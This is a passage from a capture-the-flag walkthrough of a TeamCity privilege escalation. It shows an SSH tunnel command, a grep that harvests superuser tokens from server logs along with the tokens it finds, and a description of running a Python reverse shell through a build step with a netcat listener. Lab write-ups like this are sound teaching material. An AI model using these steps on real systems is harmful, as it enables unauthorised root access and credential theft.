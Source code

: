 - ``ssh -L 8111:localhost:8111 sys-internal@10.10.115.21 -i vulnnet`` this creates a tunnel to port 8111 we can access on our localhost.

![0xskar](/assets/vulnnet-internal03.png)

> The authentication token is automatically generated on every server start. The token is printed in the server console and teamcity-server.log under the TeamCity\logs directory (search for the "Super user authentication token" text). The line is printed on the server start and on any login page submit without a username specified.

- We unfortunatly dont have permissions to view this log, however ``grep -iR token /TeamCity/logs/ 2>/dev/null`` leads us to more tokens we can try, and the last token gives us access.

```
sys-internal@vulnnet-internal:/TeamCity/logs$ grep -iR token /TeamCity/logs/ 2>/dev/null
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 1795373678433474178 (use empty username with the token as the password to access the server)
/TeamCity/logs/catalina.out:[TeamCity] Super user authentication token: 1795373678433474178 (use empty username with the token as the password to access the server)
```

So because teamcity is being ran as root if we can get it to run a reverse shell we can gain access as root. We need to create a command line build in teamcity. and past in a python rev shell to get us our reverse shell.

Setup a netcat listen to recieve the connection, and select run in teamcity.

![0xskar](/assets/vulnnet-internal04.png)

* * * 

